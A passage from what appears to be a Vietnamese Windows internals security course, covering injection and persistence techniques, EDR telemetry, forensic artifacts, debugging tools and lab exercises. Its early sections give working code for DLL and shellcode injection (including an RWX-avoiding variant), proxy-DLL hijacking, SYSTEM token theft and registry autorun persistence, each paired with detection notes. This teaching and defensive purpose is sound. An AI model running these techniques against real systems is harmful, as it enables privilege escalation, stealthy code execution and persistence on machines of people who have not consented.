    WriteProcessMemory(hProcess, remoteBuffer, dllPath, dllPathLen, NULL);

    // 4. Resolve địa chỉ LoadLibraryA (giống nhau trong mọi process vì ASLR random per-boot)
    LPVOID loadLibAddr = (LPVOID)GetProcAddress(
        GetModuleHandleA("kernel32.dll"), "LoadLibraryA");

    // 5. Tạo remote thread gọi LoadLibraryA(dllPath)
    HANDLE hThread = CreateRemoteThread(
        hProcess, NULL, 0,
        (LPTHREAD_START_ROUTINE)loadLibAddr,
        remoteBuffer, 0, NULL);

    WaitForSingleObject(hThread, 5000);
    VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return TRUE;
}

// Compile: cl /nologo inject_dll.c /link /out:inject.exe
// Usage: inject.exe <PID> <C:\path\to\payload.dll>
```

**Detection:**
- Sysmon Event 8 (CreateRemoteThread): source PID, target PID, start address = `kernel32!LoadLibraryA`
- Sysmon Event 10 (ProcessAccess): access mask `0x43A` = PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD
- ETW-TI `WRITEVM`: write vào target process memory
- `ObRegisterCallbacks`: EDR thấy OpenProcess với VM_WRITE rights → có thể block/alert
- Sysmon Event 7 (ImageLoad): DLL load từ unusual path trong target process

---

### 8.3 Shellcode Injection (VirtualAllocEx + WriteProcessMemory)

**Concept:** Inject raw shellcode (không phải DLL) vào target process, thực thi qua remote thread.

```c
#include <windows.h>

// msfvenom -p windows/x64/exec CMD=calc.exe -f c
unsigned char shellcode[] = {
    0x48, 0x31, 0xff, 0x48, 0xf7, 0xe7, 0x65, 0x48, 0x8b, 0x58, 0x60,
    0x48, 0x8b, 0x5b, 0x18, 0x48, 0x8b, 0x5b, 0x20, 0x48, 0x8b, 0x1b,
    // ... remainder of shellcode
};

BOOL InjectShellcode(DWORD targetPID) {
    HANDLE hProcess = OpenProcess(
        PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD,
        FALSE, targetPID);

    // Cấp phát RWX memory trong target — high-signal cho EDR
    LPVOID remoteShellcode = VirtualAllocEx(
        hProcess, NULL, sizeof(shellcode),
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(hProcess, remoteShellcode,
        shellcode, sizeof(shellcode), NULL);

    HANDLE hThread = CreateRemoteThread(
        hProcess, NULL, 0,
        (LPTHREAD_START_ROUTINE)remoteShellcode,
        NULL, 0, NULL);

    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return TRUE;
}
```

**Stealthier variant — RW then RX (two-step, tránh RWX):**
```c
// Cấp phát RW trước (ít suspicious hơn RWX)
LPVOID mem = VirtualAllocEx(hProcess, NULL, sizeof(shellcode),
    MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
WriteProcessMemory(hProcess, mem, shellcode, sizeof(shellcode), NULL);

// Flip sang RX sau khi write xong
DWORD oldProtect;
VirtualProtectEx(hProcess, mem, sizeof(shellcode), PAGE_EXECUTE_READ, &oldProtect);

CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)mem, NULL, 0, NULL);
```

**Detection:**
- RWX allocation: ETW-TI `ALLOCVM` với protection = `PAGE_EXECUTE_READWRITE` → high-signal alert
- RW→RX flip: ETW-TI `PROTECTVM` với old=`PAGE_READWRITE`, new=`PAGE_EXECUTE_READ` → behavioral sequence
- Thread start address trỏ vào private memory (không phải image-backed region) → Sysmon Event 8

---

### 8.4 DLL Search Order Hijacking

**Concept:** Windows tìm DLL theo thứ tự cố định. Nếu một directory writable nằm trước thư mục thật trong search path, ta đặt DLL giả ở đó.

**DLL search order (SafeDllSearchMode = 1, default):**
1. KnownDLLs (`HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`)
2. Application directory (cùng folder với exe)
3. `C:\Windows\System32`
4. `C:\Windows\System`
5. `C:\Windows`
6. Current working directory
7. `%PATH%` directories

**Kiểm tra missing DLL của một exe với Process Monitor:**
```
Filter: Process Name = target.exe
Filter: Result = NAME NOT FOUND
Filter: Path ends with .dll
→ Quan sát DLL nào được tìm nhưng không tìm thấy → candidate cho hijacking
```

**Tạo proxy DLL (giữ nguyên chức năng gốc, thêm payload):**
```c
// proxy.c — compile thành <target_dll_name>.dll
// Đặt vào directory xuất hiện trước System32 trong search path

// Forward exports sang DLL thật (Visual Studio linker pragma)
#pragma comment(linker, "/export:TargetFunction=C:\\Windows\\System32\\real.dll.TargetFunction,@1")

#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
    if (fdwReason == DLL_PROCESS_ATTACH) {
        // Payload — chạy trong context của target process
        WinExec("calc.exe", SW_HIDE);
    }
    return TRUE;
}
// Compile: cl /LD proxy.c /link /out:target.dll
```

**Detection:**
- Sysmon Event 7: DLL load từ non-System32 path với tên giống system DLL
- Sysmon Event 7: `Signed = false` cho DLL có tên hợp lệ
- Process Monitor: `NAME NOT FOUND` tại expected path → `SUCCESS` tại attacker-controlled path

---

### 8.5 Token Stealing

**Concept:** Copy access token của SYSTEM process (`winlogon.exe`, `lsass.exe`) → spawn process mới với token đó → trở thành SYSTEM.

```c
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>

// Enable SeDebugPrivilege — cần thiết để OpenProcess vào protected processes
BOOL EnableDebugPrivilege() {
    HANDLE hToken;
    if (!OpenProcessToken(GetCurrentProcess(),
            TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken))
        return FALSE;
    TOKEN_PRIVILEGES tp;
    LUID luid;
    LookupPrivilegeValueA(NULL, "SeDebugPrivilege", &luid);
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
    CloseHandle(hToken);
    return TRUE;
}

DWORD FindProcessPID(const wchar_t* procName) {
    HANDLE snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32W pe = { sizeof(pe) };
    DWORD pid = 0;
    if (Process32FirstW(snap, &pe)) {
        do {
            if (!_wcsicmp(pe.szExeFile, procName)) {
                pid = pe.th32ProcessID;
                break;
            }
        } while (Process32NextW(snap, &pe));
    }
    CloseHandle(snap);
    return pid;
}

void TokenStealing() {
    EnableDebugPrivilege();

    DWORD targetPID = FindProcessPID(L"winlogon.exe");
    printf("[*] winlogon.exe PID: %lu\n", targetPID);

    // Mở target process và lấy token
    HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, targetPID);
    HANDLE hToken = NULL;
    OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_QUERY, &hToken);
    CloseHandle(hProcess);

    // Duplicate token thành Primary token (dùng để spawn process)
    HANDLE hDupToken = NULL;
    DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL,
        SecurityImpersonation, TokenPrimary, &hDupToken);
    CloseHandle(hToken);

    // Spawn SYSTEM shell với token đã steal
    STARTUPINFOW si = { sizeof(si) };
    PROCESS_INFORMATION pi;
    CreateProcessWithTokenW(hDupToken, LOGON_WITH_PROFILE,
        L"C:\\Windows\\System32\\cmd.exe",
        NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

    printf("[+] Spawned SYSTEM cmd.exe PID: %lu\n", pi.dwProcessId);
    CloseHandle(hDupToken);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
}
// Compile: cl /nologo token_steal.c advapi32.lib /link /out:steal.exe
```

**Detection:**
- Sysmon Event 10 (ProcessAccess): access `PROCESS_QUERY_INFORMATION` đến winlogon/lsass từ non-system process
- Security Event 4673: Sensitive privilege use (SeDebugPrivilege)
- Security Event 4624 Logon Type 9 (NewCredentials): khi `CreateProcessWithTokenW` với `LOGON_WITH_PROFILE`
- ETW-TI: `ObRegisterCallbacks` notification cho OpenProcess đến high-value targets

---

### 8.6 Registry Persistence

**Concept:** Write payload path vào autorun registry keys. Tồn tại qua reboot mà không cần admin (HKCU).

```powershell
# HKCU Run — không cần admin, persist qua user logon
$payload = "C:\Users\Public\payload.exe"
Set-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" `
    -Name "WindowsUpdate" -Value $payload

# Kiểm tra
Get-ItemProperty "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"

# HKLM Run — cần admin, persist qua mọi user logon
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" `
    -Name "SecurityHealth" -Value $payload

# Winlogon Userinit hijack (cần admin) — thêm payload vào sau userinit.exe
$currentVal = (Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon").Userinit
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" `
    -Name "Userinit" -Value "$currentVal,C:\payload.exe"
```

**Verify với Autoruns (Sysinternals):**
```powershell
# Autoruns tự động scan tất cả persistence locations
# Dùng autorunsc.exe cho command-line output
autorunsc.exe -accepteula -a * -c -h -s | Select-String -Pattern "payload"
```

**Detection:**
- Sysmon Event 13 (RegistryValueSet): write to Run keys bởi non-installer process
- CmRegisterCallback (kernel): registry write notification đến sensitive keys
- Autoruns: highlight entries không có valid digital signature hoặc unknown publisher

---

## 9. Defender / EDR Telemetry


> Telemetry interpretation note:
> ETW/Event Log/WMI/EDR are provider-generated or sensor-generated views, not universal ground truth. Telemetry must be interpreted with source layer, configuration, provider state, collection policy, and retention. Absence of an event is not proof of absence. High-signal anomaly still requires context and correlation.

### 9.1 Kernel Callbacks (Primary EDR Hooks)

| Callback | Kernel API | Kích hoạt khi |
|---|---|---|
| Process creation | `PsSetCreateProcessNotifyRoutineEx` | Process mới được tạo |
| Process termination | `PsSetCreateProcessNotifyRoutineEx` | Process bị terminate |
| Thread creation | `PsSetCreateThreadNotifyRoutine` | Thread mới trong bất kỳ process |
| Image load | `PsSetLoadImageNotifyRoutine` | DLL/EXE được load vào memory |
| Registry | `CmRegisterCallback` | Bất kỳ registry operation |
| Object access | `ObRegisterCallbacks` | OpenProcess, OpenThread operations |
| File system | Minifilter (`FltRegisterFilter`) | File create, read, write, rename, delete |

### 9.2 ETW Events

| ETW Provider | Sự kiện quan trọng | EventID |
|---|---|---|
| Microsoft-Windows-Kernel-Process | ProcessStart, ProcessStop, ThreadStart, ImageLoad | 1, 2, 3, 5 |
| Microsoft-Windows-Threat-Intelligence | ReadVirtualMemory, WriteVirtualMemory, AllocExecVirtualMemory | 1-20+ |
| Microsoft-Windows-Security-Auditing | Process creation với command line | 4688 |
| Microsoft-Antimalware-Engine | AMSI detections, script content | varies |
| Microsoft-Windows-Kernel-Registry | SetValue, CreateKey, DeleteKey | varies |

### 9.3 Windows Event Log (Sysmon-style)

| EventID | Nguồn | Sự kiện |
|---|---|---|
| 4688 | Security | Process creation (cần audit policy bật) |
| 4689 | Security | Process termination |
| 4656 | Security | Handle request to object |
| 4663 | Security | Object access |
| 4657 | Security | Registry value modified |
| 7045 | System | New service installed |
| 7036 | System | Service started/stopped |

**Sysmon Events (nếu Sysmon installed):**
| EventID | Sự kiện |
|---|---|
| 1 | Process Create (với hash, command line, parent info) |
| 2 | File creation time changed |
| 3 | Network connection |
| 7 | Image loaded |
| 8 | CreateRemoteThread |
| 10 | ProcessAccess (OpenProcess calls) |
| 11 | FileCreate |
| 12/13/14 | RegistryEvent |
| 25 | ProcessTampering |

### 9.4 Những gì EDR thực sự thấy

**Với user-mode hook (IAT/inline hook trong ntdll):**
- Mọi Win32/Native API call trong process bị monitored
- Arguments và return values
- Caller address (để trace call chain)

**Với kernel callbacks:**
- Process/thread lifecycle events
- Image loads (với digital signature check)
- Registry changes (pre-operation và post-operation)
- File system operations
- Handle access patterns

**Giới hạn của từng lớp sensor:**
- User-mode instrumentation (ntdll hooks): không quan sát được code dùng direct syscall — đây là lý do kernel callbacks là telemetry source đáng tin cậy hơn về mặt kiến trúc.
- Kernel callbacks: không quan sát được kernel-level attacks nếu attacker đã có kernel access.
- Không có lớp nào: hardware-level attacks bên dưới hypervisor (nếu VBS không được bật).

---

## 10. Forensic Artifacts

### 10.1 Registry Artifacts

```
Startup/autorun configuration keys (forensic review targets):
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKLM\SYSTEM\CurrentControlSet\Services\

Recent activity:
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\UserAssist

Program execution:
HKLM\SYSTEM\CurrentControlSet\Services\bam\State\UserSettings\ (BAM)
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\UserAssist
```

### 10.2 Filesystem Artifacts

| Artifact | Location | Thông tin |
|---|---|---|
| **Prefetch** | `C:\Windows\Prefetch\*.pf` | Chương trình đã chạy, lần cuối, số lần chạy, files accessed |
| **AmCache** | `C:\Windows\AppCompat\Programs\Amcache.hve` | SHA-1 hash của executables đã chạy |
| **ShimCache** | `HKLM\SYSTEM\...\AppCompatCache` | Mọi executable đã được executed/touched |
| **Thumbcache** | `%LocalAppData%\Microsoft\Windows\Explorer\` | Thumbnail cache của images |
| **LNK files** | `%AppData%\Microsoft\Windows\Recent\` | Shortcuts đến files đã mở gần đây |
| **Jump Lists** | `%AppData%\Microsoft\Windows\Recent\AutomaticDestinations\` | App usage history |

### 10.3 Memory Artifacts

- **Process list** trong memory image: `EPROCESS` linked list
- **Handles**: `HANDLE_TABLE` của từng process
- **Network connections**: `TcpIpOwnerModuleTable` trong kernel
- **Loaded modules**: `EPROCESS.Peb.Ldr.InLoadOrderModuleList`
- **Injected code**: memory regions với RWX protection và không có backing file

### 10.4 Event Log Artifacts

```
Security.evtx    ← 4688 (process creation), 4624/4625 (logon/fail)
System.evtx      ← 7045 (service install), driver loads
Application.evtx ← application errors, crash dumps
Microsoft-Windows-Sysmon/Operational.evtx ← nếu Sysmon installed
Microsoft-Windows-PowerShell/Operational.evtx ← PowerShell logs
```

---

## 11. Debugging and Reversing Notes

### 11.1 WinDbg — Kernel Debugging Essentials

**Kết nối kernel debugger (VMware):**
```
VM settings: Add Serial Port → Named Pipe → \\.\pipe\com_1
WinDbg: File → Attach to kernel → COM port \\.\pipe\com_1 pipe baud=115200
```

**Commands cơ bản:**
```windbg
!process 0 0              ← list tất cả processes
!process <EPROCESS> 7     ← detail một process (threads, handles, modules)
dt nt!_EPROCESS <addr>    ← dump EPROCESS struct
dt nt!_PEB <addr>         ← dump PEB
!handle                   ← dump handle table của current process
lm                        ← list loaded modules
!devobj \Device\Harddisk0 ← dump device object
.reload /f                ← reload symbols
x nt!Ps*                  ← list all Ps* symbols in ntoskrnl
```

**Xem process token:**
```windbg
!process 0 0 lsass.exe   ← tìm EPROCESS của lsass
dt nt!_TOKEN <token_addr> ← dump token structure
```

**Đặt breakpoint trên syscall:**
```windbg
bp nt!NtCreateProcess     ← break khi NtCreateProcess được gọi
bp nt!NtAllocateVirtualMemory "k; gc"  ← log call stack và continue
```

### 11.2 Process Explorer

- **Ctrl+D**: Xem DLLs của process
- **Ctrl+H**: Xem Handles của process
- **Click chuột phải → Properties → Threads**: Xem threads và call stacks
- **View → Lower Pane View → DLLs**: DLL list với path và signature
- **Verify → Verify Image Signatures**: Check tất cả signature một lần
- **Color coding**: Purple = packed/compressed image; Pink = services; Blue = own process

**Tip:** So sánh DLL path với expected path. Nếu `kernel32.dll` load từ `C:\Temp\` thay vì `System32\` — đó là DLL hijack.

### 11.3 Process Monitor

**Quan trọng nhất:** Filter trước khi capture.

**Useful filters:**
```
Process Name is lsass.exe           ← theo dõi lsass
Path contains \SOFTWARE\Run         ← registry persistence
Operation is CreateFile             ← file creation
Result is ACCESS DENIED             ← permission errors
```

**Event columns quan trọng:**
- `Path`: File/Registry path
- `Result`: SUCCESS, ACCESS DENIED, NOT FOUND…
- `Detail`: Xem detail của từng operation

### 11.4 WinObj (Sysinternals)

Dùng để browse **Object Manager namespace**:
- `\Device\` — device objects
- `\BaseNamedObjects\` — named objects per-session
- `\Global??` — device symlinks (C:, D:…)
- `\Sessions\1\BaseNamedObjects\` — session 1 named objects

Hữu ích để tìm mutex malware dùng làm mutex (single-instance check).

### 11.5 PowerShell — Quick Internals

```powershell
# List processes với parent PID
Get-WmiObject Win32_Process | Select-Object Name, ProcessId, ParentProcessId, CommandLine

# Xem loaded modules của process
$proc = Get-Process lsass
$proc.Modules | Select-Object ModuleName, FileName

# Xem handles (cần Sysinternals handle.exe trong PATH)
handle.exe -p <PID>

# Xem services và binary paths
Get-Service | ForEach-Object { 
    $svc = $_;
    Get-WmiObject Win32_Service -Filter "Name='$($svc.Name)'" | Select-Object Name,PathName,StartName
}

# Xem registry Run keys
Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
Get-ItemProperty HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

### 11.6 x64dbg — User Mode Debugging

```
Breakpoint trên API:
  bp kernel32.VirtualAlloc   ← break khi VirtualAlloc gọi
  bp ntdll.NtCreateFile

Theo dõi syscall:
  Tracing → Trace into → ghi log syscall calls
  
Xem PEB:
  View → Memory Map → tìm region chứa PEB
  Hoặc: FS:[0x30] (x86) hoặc GS:[0x60] (x64) → PEB address
```

---

## 12. Safe Local Labs


> Lab format note:
> Mỗi lab nên được đọc theo checklist: **Goal**, **Requirements**, **Steps**, **Expected observations**, **Research notes**, và **Cleanup**. Nếu một lab cũ chưa ghi đủ từng nhãn này, áp dụng checklist này trước khi chạy: dùng Windows VM/snapshot, ghi tool version/build, chỉ thao tác trên test artifact, dừng collector/debug setting sau lab, và xóa test files/keys/processes do lab tạo.

### Lab 1.1 — Quan sát Process Hierarchy và Token

**Goal:** Hiểu process tree thực tế và xem access token của một process.

**Requirements:**
- Windows 10/11 VM
- Process Explorer (Sysinternals)
- PowerShell (admin)

**Steps:**
1. Mở Process Explorer với tư cách Administrator
2. View → Show Process Tree (nếu chưa tree view)
3. Tìm process `services.exe` — quan sát parent là `wininit.exe`
4. Tìm một `svchost.exe` — right-click → Properties → Services tab: xem services nào đang run trong đó
5. Mở PowerShell as Administrator, chạy:
   ```powershell
   whoami /all
   ```
   Đọc output: Token, SID, Groups, Privileges
6. Mở PowerShell thường (non-admin), chạy lại `whoami /all`
7. So sánh: Elevated có `SeDebugPrivilege`, `SeLoadDriverPrivilege` — non-elevated không có

**Expected observations:**
- `wininit.exe` → `services.exe` → `svchost.exe` chain
- Admin PowerShell có High Integrity Level, nhiều Privileges
- Non-admin PowerShell có Medium Integrity Level

**Explanation:**
Bạn đang thấy token-based security model hoạt động. Elevated process nhận nhiều privileges hơn. SCM (services.exe) là parent của mọi service host.

**Cleanup:** Không cần — chỉ đọc.

---

### Lab 1.2 — Quan sát System Calls với Process Monitor

**Goal:** Xem làm thế nào một API call đơn giản trở thành series of kernel operations.

**Requirements:**
- Process Monitor (Sysinternals)
- Notepad.exe

**Steps:**
1. Mở Process Monitor as Administrator
2. Filter: `Process Name is notepad.exe`
3. Mở Notepad, gõ "Hello World", save thành `C:\Temp\test.txt`
4. Quan sát Process Monitor:
   - Tìm các events với Operation: `CreateFile`, `WriteFile`, `CloseFile`
   - Click vào `CreateFile` → xem Detail
   - Tìm registry reads (Notepad đọc settings từ registry lúc start)

**Expected observations:**
- `CreateFile` với path `C:\Temp\test.txt` và Disposition `Create`
- `WriteFile` với byte count
- Nhiều registry reads lúc Notepad startup (`SOFTWARE\Microsoft\Notepad`)
- `QueryDirectory` operations khi browse folder

**Explanation:**
Mỗi file save gọi Win32 API → qua Native API → qua syscall → kernel I/O manager → NTFS driver → disk. ProcMon capture ở lớp kernel filter driver, sau khi đi qua toàn bộ stack.

**Cleanup:** Xóa `C:\Temp\test.txt` nếu muốn.

---

### Lab 1.3 — Browse Object Namespace với WinObj

**Goal:** Thấy kernel object namespace và hiểu named objects.

**Requirements:**
- WinObj (Sysinternals) — phải chạy as Administrator

**Steps:**
1. Mở WinObj as Administrator
2. Browse các directory:
   - `\Device\` — xem device objects (HarddiskVolume1, 2, 3…, Null, Tcp, Udp)
   - `\BaseNamedObjects\` — xem named objects (mutex, event, section objects)
   - `\Global??` — xem symlinks (C:, D:, NUL, PIPE…)
3. Tìm `\BaseNamedObjects\` và expand — xem mutex và event objects hiện tại
4. Mở một program (ví dụ: Firefox hoặc Chrome), xem objects mới xuất hiện trong `\BaseNamedObjects\`

**Expected observations:**
- `\Device\` chứa nhiều device objects — đây là kernel-level devices
- `\BaseNamedObjects\` chứa mutexes của running applications
- `\Global??` map tên drive letter sang device path thật

**Explanation:**
Object Manager namespace là "filesystem" cho kernel objects. Khi malware cần single-instance mutex, nó tạo mutex trong `\BaseNamedObjects\`. Bạn có thể enumerate mutex của malware đang chạy từ đây.

**Cleanup:** Không cần.

---

### Lab 1.4 — Xem Registry Startup/Autorun Configuration Locations

**Goal:** Kiểm tra các registry startup/autorun configuration locations quan trọng cho forensics và administration.

**Requirements:**
- Regedit hoặc PowerShell

**Steps:**
1. Mở PowerShell
2. Kiểm tra các Run keys:
   ```powershell
   Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
   Get-ItemProperty "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
   Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce"
   ```
3. Kiểm tra Winlogon (shell hijack potential):
   ```powershell
   Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" | Select-Object Shell, Userinit
   ```
   Expected: `Shell = explorer.exe`, `Userinit = C:\Windows\system32\userinit.exe,`
4. Kiểm tra Image File Execution Options (debugger hijacking):
   ```powershell
   Get-ChildItem "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | Where-Object { $_.GetValue("Debugger") -ne $null }
   ```

**Expected observations:**
- Run keys có thể có một số entries (antivirus, legitimate software)
- Winlogon Shell và Userinit nên là expected values
- IFEO không nên có Debugger entries trừ khi bạn set

**Explanation:**
Đây là các startup/autorun configuration locations mà forensic analyst và system administrator cần baseline và monitor định kỳ. Bất kỳ entry không mong đợi nào đều đáng điều tra. Autoruns (Sysinternals) tự động kiểm tra tất cả locations này.

**Cleanup:** Không cần.

---

## 13. Common Researcher Mistakes

| Sai lầm | Thực tế | Hệ quả |
|---|---|---|
| "Win32 API = Windows internals" | Win32 là abstraction. Internals nằm ở Native API và kernel | Missed attack surface ở Native API layer |
| "Process là đơn vị thực thi" | Thread mới là đơn vị thực thi. Process là container | Confusion khi analyze threading bugs |
| "Virtual address = physical address" | VA phải được translated qua page table. Cùng VA, khác process = khác physical | Memory analysis mistakes |
| "Admin = SYSTEM" | Admin và SYSTEM là khác nhau. SYSTEM không có Desktop session | Privilege confusion trong exploit development |
| "Handle là pointer" | Handle là index trong bảng handle. Không thể dùng nó trực tiếp như pointer | API misuse |
| "Registry key delete = gone" | Transaction logs, VSS, memory artifacts có thể giữ lại | Incomplete cleanup, forensic miss |
| "Syscall numbers là cố định" | Syscall numbers thay đổi theo Windows build. NtCreateFile trên Win10 1903 ≠ Win10 22H2 | Direct syscall code bị break sau update |
| "Kernel mode process tồn tại" | Kernel không có process. Code kernel chạy trong context của thread đang gọi hoặc trong DPC/interrupt | Conceptual error khi viết driver |
| "ASLR làm exploit impossible" | ASLR có thể bị bypass (brute force, leak, 32-bit ASLR entropy thấp) | Underestimate exploit difficulty |
| "lsass.exe luôn bị attack bởi Mimikatz" | PPL mode lsass chặn classical Mimikatz. Cần kernel driver để bypass | Over-reliance on tools, không hiểu cơ chế |

---

## 14. Windows Version Notes

### Windows 10 (1903–22H2)

- **ASLR improvements**: High-entropy ASLR trên 64-bit, Force ASLR policy
- **CFG (Control Flow Guard)**: Được enable trên ngày càng nhiều system binaries
- **CET (Control-flow Enforcement Technology)**: Từ Windows 10 20H1 trên hardware hỗ trợ
- **VBS/HVCI**: Virtualization-Based Security và Hypervisor-Protected Code Integrity — ngăn unsigned kernel code
- **PPL cho lsass**: Configurable — `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\RunAsPPL = 1`
- **Syscall numbers thay đổi** mỗi major build

### Windows 11 (21H2+)

- **TPM 2.0 requirement**: Hardware-based security state (BitLocker, Credential Guard)
- **Pluton security processor** (trên supported hardware): Keys trong CPU, không accessible qua DMA
- **Smart App Control**: ML-based application allow-listing
- **HVCI enabled by default** trên nhiều OEM machines hơn
- **Enhanced Phishing Protection** in SmartScreen

### Build-Specific Gotchas

```
Windows 10 1903 (Build 18362): NtCreateUserProcess signature changed
Windows 10 2004 (Build 19041): ETW-TI improvements
Windows 10 21H2 (Build 19044): CET shadow stack improvements
Windows 11 22H2 (Build 22621): Smart App Control, WDAC improvements
```

---

## 15. Summary

Chapter 1 đặt nền tảng cho toàn bộ series:

- **Windows là hệ thống layered**: App → Win32 → Native API → Syscall → Kernel. Mỗi lớp là một abstraction và một attack surface.
- **Ring 0/Ring 3 boundary** được hardware enforce. Syscall là cổng chính thức — và là điểm EDR monitor.
- **Process là container, thread là executor.** Mọi injection technique đều cần handle vào process và thread creation.
- **Kernel objects** là tất cả tài nguyên trong Windows. Handle là ticket để access chúng.
- **Registry** chứa startup/autorun configuration locations là nguồn forensic artifact và detection signal quan trọng — blue team cần monitor và baseline những keys này.
- **Tool là mắt của researcher**: WinDbg nhìn vào kernel, Process Explorer thấy process tree, ProcMon trace operations, WinObj browse namespace.

---

## 16. Research Questions

1. Nếu code dùng direct syscall (không qua ntdll stubs), EDR kernel callback `PsSetCreateProcessNotifyRoutineEx` có vẫn kích hoạt không? Tại sao? Điều này nói lên gì về sự khác biệt kiến trúc giữa user-mode instrumentation và kernel callbacks?

2. Windows có cơ chế gì để phát hiện khi một process đọc memory của process khác qua `ReadProcessMemory`? ETW-TI `ReadVirtualMemory` event hoạt động như thế nào?

3. `EPROCESS.ImageFileName` chỉ lưu 15 ký tự — attacker có thể exploit điều này như thế nào? Tool nào sẽ report tên đúng vs tên bị truncate?

4. Integrity levels được lưu ở đâu trong kernel structure? Kernel validate integrity level ở bước nào trong handle open?

5. Nếu attacker có handle đến một process với `PROCESS_DUP_HANDLE`, họ có thể làm gì? Đây là technique gì?

6. Session 0 isolation không hoàn toàn ngăn communication giữa sessions. Cơ chế IPC nào vẫn hoạt động cross-session? (Hint: Named pipes, COM với RunAs)

7. `ObRegisterCallbacks` (handle notification) có thể bị attacker disable không? Cần privilege gì? EDR protect nó như thế nào?

8. Liệt kê 3 syscall mà malware hay dùng trong process injection. Với mỗi syscall, số của nó trên Windows 10 22H2 là bao nhiêu?

---

## 17. References

### Windows Internals Book
- WI7 Part 1, Chapter 1: *Concepts and Tools* — trang 1–100

### Microsoft Learn
- [Windows API Index](https://learn.microsoft.com/en-us/windows/win32/apiindex/windows-api-list)
- [Process Security and Access Rights](https://learn.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights)
- [Access Control (Authorization)](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-control)
- [Registry](https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry)
- [Virtual Memory Functions](https://learn.microsoft.com/en-us/windows/win32/memory/virtual-memory-functions)
- [ETW Overview](https://learn.microsoft.com/en-us/windows/win32/etw/about-event-tracing)

### Sysinternals
- [Process Explorer](https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer)
- [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)
- [WinObj](https://learn.microsoft.com/en-us/sysinternals/downloads/winobj)

### WinDbg
- [WinDbg command reference](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-commands)
- [!process extension](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/-process)
- [dt command](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/dt--display-type-)

### Research Blogs
- [windows-internals.com](https://windows-internals.com) — official blog từ tác giả WI7
- [j00ru syscall table](https://j00ru.vexillium.org/syscalls/nt/64/) — syscall numbers cho mọi Windows version
- [tiraniddo.dev](https://www.tiraniddo.dev) — James Forshaw, Windows security research

### WDK/SDK
- [EPROCESS structure reference](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/eprocess)
- [PEB structure](https://learn.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb)

---

## 18. Illustration Plan

### Mermaid Diagrams (đã có trong chapter)
- [x] Windows layer architecture diagram (Section 2)

### Diagrams cần tạo thêm

**Diagram 2: Syscall flow detail**


**Diagram 3: Process handle table**


### Screenshots cần chụp trong VM

1. **Process Explorer — process tree**: Chụp full tree với `wininit.exe → services.exe → svchost.exe` chain hiện rõ
   - Alt text: "Process Explorer showing Windows system process hierarchy with wininit, services, svchost chain"

2. **Process Explorer — token của elevated process**: Right-click cmd.exe (admin) → Properties → Security tab
   - Alt text: "Access token of elevated process showing High integrity level and SeDebugPrivilege"

3. **Process Monitor — file save operations**: Capture khi save file trong Notepad — show CreateFile, WriteFile, CloseFile operations
   - Alt text: "Process Monitor showing kernel-level file I/O operations for a simple Notepad file save"

4. **WinObj — Object Namespace**: Screenshot của `\BaseNamedObjects\` với các mutex objects visible
   - Alt text: "WinObj showing Object Manager namespace with named objects in BaseNamedObjects"

5. **WinDbg — `!process` output**: Output của `!process 0 0` hoặc `!process <addr> 7` cho một process
